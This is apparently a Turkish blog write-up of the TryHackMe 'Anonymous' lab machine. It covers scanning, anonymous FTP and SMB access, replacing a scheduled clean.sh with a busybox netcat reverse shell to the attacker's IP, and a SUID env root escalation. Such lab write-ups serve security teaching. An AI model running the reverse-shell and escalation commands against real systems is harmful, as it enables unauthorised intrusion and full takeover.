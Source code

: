 ```yaml
---
title: 'TryHackMe | Anonymous WriteUp'
author: appdone
categories: [TryHackMe Challenges]
tags: [ftp, suid]
render_with_liquid: false
---
```


## Özet

Anonymous, `FTP` üzerinden sisteme shell yükleyerek sisteme giriş yaptığımız orta seviye bir linux makinedir. Bağlantı sonrasında `SUID` bitine sahip olan dosyaları listeyecek ve listede bulunan bir dosyadan faydalanarak yetki yükselteceğiz.

## Keşif aşaması

### Nmap taraması

```console
$nmap -sV -sC -T4 10.10.84.107
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-23 07:19 EDT
Nmap scan report for 10.10.84.107
Host is up (0.063s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.21.66.61
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2025-03-23T11:20:06+00:00
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-03-23T11:20:06
|_  start_date: N/A
|_clock-skew: mean: 1s, deviation: 0s, median: 1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.91 seconds
```

Tarama sonucunda 21 (FTP), 22 (SSH) ve 139/445 (SMB) numaralı portların açık olduğunu öğreniyoruz. Ayrıca `FTP` servisinin `anonymous` özelliği, SMB servisinin ise misafir kullanıcı özelliği aktif bulunuyor.

### 139/445 numaralı portun incelenmesi

SMBMap aracını kullanarak misafir oturumunda görüntüleyebildiğimiz dosyaları listelediğimizde pics adında bir paylaşım olduğunu görüyoruz. 

```console
$ smbmap -H 10.10.84.107 -r
[+] Guest session       IP: 10.10.84.107:445    Name: 10.10.84.107                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        pics                                                    READ ONLY       My SMB Share Directory for Pics
        .\pics\*
        dr--r--r--                0 Sun May 17 07:11:34 2020    .
        dr--r--r--                0 Wed May 13 21:59:10 2020    ..
        fr--r--r--            42663 Mon May 11 20:43:42 2020    corgo2.jpg
        fr--r--r--           265188 Mon May 11 20:43:42 2020    puppos.jpeg
        IPC$                                                    NO ACCESS       IPC Service (anonymous server (Samba, Ubuntu))
```

Bu paylaşımın içerisinde `corgo2.jpg` ve `puppos.jpeg` olmak üzere iki dosya bulunuyor. İkisindende herhangi bir bilgi çıkaramadım.

```console
$smbclient \\\\10.10.84.107\\pics
Password for [WORKGROUP\appdone]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun May 17 07:11:34 2020
  ..                                  D        0  Wed May 13 21:59:10 2020
  corgo2.jpg                          N    42663  Mon May 11 20:43:42 2020
  puppos.jpeg                         N   265188  Mon May 11 20:43:42 2020

                20508240 blocks of size 1024. 13306816 blocks available
smb: \> get corgo2.jpg 
getting file \corgo2.jpg of size 42663 as corgo2.jpg (90.4 KiloBytes/sec) (average 90.4 KiloBytes/sec)
smb: \> get puppos.jpeg 
getting file \puppos.jpeg of size 265188 as puppos.jpeg (384.8 KiloBytes/sec) (average 265.1 KiloBytes/sec)
smb: \> 
```

### 21 numaralı portun incelenmesi

FTP servisine misafir kullanıcı olarak bağlandıktan sonra `clean.sh`, `removed_files.log` ve `to_do.txt` olmak üzere üç dosya ile karşılaşıyoruz.

```console
ftp> ls -la
229 Entering Extended Passive Mode (|||15032|)
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 Jun 04  2020 .
drwxr-xr-x    3 65534    65534        4096 May 13  2020 ..
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000         1720 Mar 23 11:36 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
226 Directory send OK.
ftp> 
```

`to_do.txt` dosyası içerisinde, misafir kullanıcı özelliğinin güvenli olmadığı ve kapatılması gerektiği yazıyor.

```
I really need to disable the anonymous login...it's really not safe
```

`clean.sh` dosyasının içerisinde ise  `Running cleanup script:  nothing to delete` yazısını `removed_files.log` dosyasına ekleyen bir `bash` kodu var.

```bash
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

`removed_files.log` dosyasını kontrol ettiğimizde `clean.sh` dosyasının defalarca çalıştırıldığınnı ve bu dosyaya yazdırıldığını görüyoruz.

```console
$ cat removed_files.log                                                                                                                                                                   
Running cleanup script:  nothing to delete                                                                                                                                                    
Running cleanup script:  nothing to delete                                                                                                                                                    
Running cleanup script:  nothing to delete
...
```

## Sömürü aşaması

`removed_files.log` dosyasından yola çıkarak `clean.sh` dosyasının ara ara çalıştırıldığını düşünebiliriz. Reverse shell kodumuzu aynı isimde bir dosyaya ekleeyelim.

```console
$ echo "busybox nc 10.21.66.61 1234 -e /bin/bash" > clean.sh
```

Daha sonra bu dosyayı `FTP` servisinde bulunan `scripts` dizinine yükledikten sonra bağlantının geleceği portu dinlemeye alalım.

```console
ftp> put clean.sh 
local: clean.sh remote: clean.sh
229 Entering Extended Passive Mode (|||37654|)
150 Ok to send data.
100% |*************************************************************************************************************************************************|    41        1.14 MiB/s    00:00 ETA
226 Transfer complete.
41 bytes sent in 00:00 (0.30 KiB/s)
```

Yaklaşık 15-20 saniye sonra dinlemeye aldığımız port üzerinden bağlantıyı elde ediyoruz.

```console
$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.21.66.61] from (UNKNOWN) [10.10.84.107] 42498
id
uid=1000(namelessone) gid=1000(namelessone) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

## Yetki yükseltme

### root

`SUID` bitine sahip olan dosyaları listelediğimizde içlerinden biri olan `/usr/bin/env` dosyası ilgimizi çekiyor.

```console
 namelessone@anonymous:/$ find / -perm -4000 2>/dev/null
...
/usr/bin/env
...
```

Bu dosyayı [GTFOBins](https://gtfobins.github.io/gtfobins/env/#suid) sitesinde arattıktan sonra sadece `/usr/bin/bash -p` komutunu ekleyerek yetki yükseltebileceğimizi öğreniyoruz. Bunu uyguladıktan sonra root haklarına sahip oluyor ve `/root` dizininden son bayrağımızı alıyoruz.

```console
namelessone@anonymous:/$ /usr/bin/env /bin/bash -p
bash-4.4# id
uid=1000(namelessone) gid=1000(namelessone) euid=0(root)...
bash-4.4# cd /root
bash-4.4# ls
root.txt
```
